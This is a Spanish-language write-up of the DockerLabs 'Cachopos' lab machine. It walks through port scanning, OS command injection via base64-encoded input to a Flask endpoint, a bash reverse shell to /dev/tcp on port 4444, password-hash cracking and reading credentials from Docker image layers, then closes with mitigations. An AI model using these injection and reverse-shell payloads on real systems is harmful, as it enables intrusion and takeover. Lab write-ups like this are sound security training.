


# Cachopos — DockerLabs Writeup

**Platform:** DockerLabs | **Difficulty:** mid | **Target IP:** 172.17.0.2

## Descripcion

Laboratorio sobre ataques en entornos web con autenticación insegura.

## Attack chain

**Nmap → Enumeración web (app Flask) → Command Injection en /submitTemplate (payload en base64) → Reverse Shell → Cracking de hash.lst (SHA\_Decrypt) / Análisis de capas de la imagen Docker → Root (su root)**

## 1. Analisis y escaneo del objetivo

Se realiza un escaneo completo de puertos con `nmap`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ nmap -sV -sC -p- 172.17.0.2
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-22 20:21 -0300
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.12.3)
|_http-title: Cahopos4-4ll
|_http-server-header: Werkzeug/3.0.3 Python/3.12.3
MAC Address: FA:56:B0:9E:90:BC (Unknown)
```

Se confirma el stack web con `whatweb`:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ whatweb 172.17.0.2
http://172.17.0.2 [200 OK] HTTPServer[Werkzeug/3.0.3 Python/3.12.3], Title[Cahopos4-4ll], probably WordPress
```

Puntos destacados del escaneo:

- Puerto 22 (SSH): OpenSSH 9.6p1 sobre Ubuntu.
- Puerto 80 (HTTP): Werkzeug/Flask (Python 3.12.3), página titulada "Cahopos4-4ll". El flag "probably WordPress" de `whatweb` resultó ser un falso positivo — se trata de una aplicación Flask hecha a medida, lo que apunta a una vulnerabilidad en lógica custom del servidor.

Ingresando al puerto 80, podemos visualizar la siguiente pagina la cual relata la historia de una persona la cual dejo la ciberseguridad y se convirtio en chef. La pagina consta de varias secciones la cual 
solo dos son relevantes.



## 2. Reconocimiento web

Ingresamos a la pagina y encontramos un formulario el cual revisando el código fuente de la página (`curl http://172.17.0.2`) se encontró un formulario de "Reserva" que invoca una función JavaScript `submitTemplate()` al enviarse. Revisando el JS servido (`/static/js/index.js`):

```js
function submitTemplate() {
    const userInput = document.getElementById('userInput').value;
    fetch('/submitTemplate', {
        method: 'POST',
        headers: { 'Content-Type': 'application/x-www-form-urlencoded' },
        body: new URLSearchParams({ userInput }).toString()
    })
    ...
}
```

Esto reveló el endpoint real: **`POST /submitTemplate`**, con un único parámetro `userInput`.

El formulario a explotar es el siguiente:



## 3. Explotación — Acceso inicial

El nombre del endpoint sugería en un primer momento una posible **SSTI (Server-Side Template Injection)**. Se probó el payload clásico de detección:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ curl -X POST http://172.17.0.2/submitTemplate \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "userInput={{7*7}}"
Error: Incorrect padding
```

El error `Incorrect padding` es característico de `base64.b64decode()` en Python cuando el input no es base64 válido — el servidor decodifica el campo en base64 antes de procesarlo. Se repitió el envío codificando el payload:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ curl -X POST http://172.17.0.2/submitTemplate \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "userInput=$(echo -n '{{7*7}}' | base64)"
Error: /bin/sh: 1: {{7*7}}: not found
```

Esta respuesta descartó la hipótesis de SSTI: el string se ejecutaba **directamente como comando de shell** (`/bin/sh`), confirmando **inyección de comandos de sistema operativo**. Confirmación con un comando real:

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ curl -X POST http://172.17.0.2/submitTemplate \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "userInput=$(echo -n 'id' | base64)"
uid=1001(cachopin) gid=1001(cachopin) groups=1001(cachopin)
```

**RCE confirmado** como el usuario `cachopin`. Al conseguir luego el código fuente (`app.py`) se confirmó la causa raíz:

```python
@app.route('/submitTemplate', methods=['POST'])
def submit_Template():
    template = request.form.get('userInput', '')
    try:
        decoded = base64.b64decode(template).decode()
        process = subprocess.Popen(decoded, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        ...
```

El input del usuario se decodifica y se pasa sin ningún tipo de sanitización a `subprocess.Popen(..., shell=True)`.

## 4. Shell reversa y estabilización

Con RCE confirmado, se montó un listener y se envió una reverse shell a través del mismo endpoint:

```bash
# Listener
nc -lvnp 4444

# Payload (vía /submitTemplate, codificado en base64)
curl -X POST http://172.17.0.2/submitTemplate \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "userInput=$(echo -n 'bash -c \"bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\"' | base64)"
```

```bash
┌──(mariano㉿Kaotic)-[~/Downloads/dockerlabs-machines/03-medio/cachopo]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 51084
cachopin@d40fa9916e8f:~$
```

Estabilización de la TTY:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
stty rows 22 columns 127
```

## 5. Escalada de privilegios

### 5.1 Enumeración

Sin binarios SUID explotables, sin cron jobs ni timers de systemd activos. `sudo -l` solicitaba contraseña (sin NOPASSWD configurado). En el home de `cachopin` se encontraron archivos de interés:

```
/home/cachopin/app/app.py                        → código fuente de la app
/home/cachopin/entrypoint.sh                     → script de arranque del contenedor
/home/cachopin/app/com/personal/hash.lst         → 5 hashes con formato custom
/home/cachopin/newsletters/client_list.txt       → lista de 97 nombres (wordlist)
```

`hash.lst` contenía:

```
$SHA1$d$GkLrWsB7LfJz1tqHBiPzuvM5yFb=
$SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=
$SHA1$d$NxJmRtB6LpHs9vJYpQkErzU8wAv=
$SHA1$d$BvKpTbC5LcJs4gRzQfLmHxM7yEs=
$SHA1$d$LxVnWkB8JdGq2rH0UjPzKvT5wM1=
```

### 5.2 Vía alternativa: análisis de la imagen Docker

Se descargó el `.tar` de la máquina (distribuido por DockerLabs) y se analizó el historial de capas de la imagen OCI:

```bash
tar -xf cachopo.tar -C extracted/
grep -r -i "chpasswd" extracted/blobs/sha256/*
```

Esto reveló, directamente en las instrucciones `RUN` del Dockerfile usadas para construir la imagen:

```
RUN echo "root:cecina" | chpasswd
RUN useradd -m -s /bin/bash cachopin && echo "cachopin:simple" | chpasswd
```

Técnica válida de enumeración (secretos filtrados en el historial de build de una imagen Docker), que reveló las credenciales hardcodeadas `root:cecina` y `cachopin:simple`.

### 5.3 Crackeo de hash.lst (vía intencional)

Se identificó que el formato `$SHA1$d$...` corresponde al generado por la herramienta [SHA\_Decrypt](https://github.com/PatxaSec/SHA_Decrypt) (autor: **PatxaSec**), cuyo esquema es:

```
printf "%s%s" <salt> <password> | openssl dgst -sha1 -binary | base64 -w 0 | tr '+/' '-/' | tr '/' '_'
```

Es decir: `sha1(salt + password)` codificado en base64 URL-safe, con salt fijo `'d'`. Se clonó el repositorio y se crackearon las hashes contra `rockyou.txt`:

```bash
git clone https://github.com/PatxaSec/SHA_Decrypt
cd SHA_Decrypt
pip install tqdm
python3 sha2text.py 'd' '$SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=' /usr/share/wordlists/rockyou.txt
```

```
 [+] Pwnd !!! $SHA1$d$BjkVArB9RcGUs3sgVKyAvxzH0eA=::::cecina
```

La contraseña obtenida (`cecina`) coincide exactamente con la encontrada por la vía de análisis de la imagen Docker, confirmando de forma cruzada ambos hallazgos. El resto de las hashes no se encontraron en `rockyou.txt`; se continuó probando con el wordlist local `client_list.txt` entregado por la propia máquina.

### 5.4 Escalada confirmada

```bash
su root
# Password: cecina
```

**Acceso root obtenido.**

# Conclusión

La máquina **Cachopos** combina dos fases bien diferenciadas:

1. **Explotación web:** una inyección de comandos de sistema operativo disfrazada bajo un endpoint con nombre engañoso (`submitTemplate`), que requería decodificar en base64 antes de inyectar el payload.
2. **Escalada de privilegios:** un ejercicio de cracking de hashes con un formato no estándar (`$SHA1$salt$hash` en base64 URL-safe), resoluble con la herramienta `SHA_Decrypt` de PatxaSec, con posibilidad de corroborar la contraseña final también vía análisis forense de la imagen Docker (credenciales hardcodeadas en el historial de build).

| Vulnerabilidad / Técnica | Impacto | Mitigación |
| --- | --- | --- |
| **Command Injection en /submitTemplate** | Permite ejecución remota de comandos del sistema operativo a través de un parámetro decodificado en base64 y pasado a `subprocess.Popen(shell=True)`. | Nunca pasar input de usuario a `shell=True`; usar listas de argumentos y validación estricta. |
| **Credenciales hardcodeadas en el Dockerfile** | Permite obtener contraseñas válidas (`root:cecina`, `cachopin:simple`) simplemente analizando el historial de capas de la imagen. | No fijar contraseñas en instrucciones `RUN`; usar secretos de build (`--mount=type=secret`) o gestores externos. |
| **Hash con esquema débil/no estándar (`$SHA1$salt$hash`)** | SHA1 con salt fijo y conocido es crackeable por diccionario a velocidades muy altas. | Usar algoritmos de hashing de contraseñas diseñados para ese fin (bcrypt, scrypt, Argon2) con salt único por credencial. |

## Recomendaciones generales

- Nunca ejecutar input de usuario en una shell del sistema (`shell=True`); validar y usar listas de argumentos explícitas.
- No hardcodear credenciales en el Dockerfile ni en el historial de build de la imagen.
- Usar algoritmos de hashing de contraseñas robustos (bcrypt, scrypt, Argon2) en lugar de SHA1 con salt fijo.
- Auditar los artefactos de despliegue (imágenes `.tar`, archivos de configuración) antes de distribuirlos, ya que pueden filtrar información sensible.
- Aplicar el principio de mínimo privilegio en los usuarios y procesos de la aplicación.
